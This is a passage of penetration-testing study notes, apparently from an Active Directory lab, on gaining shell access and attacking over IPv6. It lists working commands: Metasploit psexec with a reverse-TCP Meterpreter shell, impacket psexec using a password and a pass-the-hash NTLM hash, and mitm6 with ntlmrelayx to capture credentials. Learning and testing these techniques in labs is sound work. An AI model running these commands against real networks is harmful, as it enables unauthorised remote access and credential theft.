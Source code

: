 
## 3- Gaining Shell Access

```
#this step has to be done once we have the credentials
msfconsole

search psexec

use exploit/windows/smb/psexec

options
#set all required options
#such as RHOSTS, smbdomain, smbpass and smbuser

set payload windows/x64/meterpreter/reverse_tcp

set LHOST eth0

run
#run exploit
```

```
#we can use another tool called psexec.py
impacket-psexec marvel.local/fcastle:Password1@10.0.0.25

#we can also utilise hashes in order to get shell access( we do not need to crack the hash)
psexec.py administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

#try multiple options if these tools do not work
#such as smbexec and wmiexec
```

## 4 - IPv6 Attacks 
* for more ressources [mitm6 attacks](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/) and [NTLM relays](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/) 
```
#download and setup the mitm6 tool

#setup LDAPS as well

mitm6 -d marvel.local

#setup relay
impacket-ntlmrelayx -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
#generate activity on Windows machine by rebooting it
#this dumps info in another directory

ls lootme
#contains useful info
#if we keep the program running in background, and the user logins, the creds can be captured
```

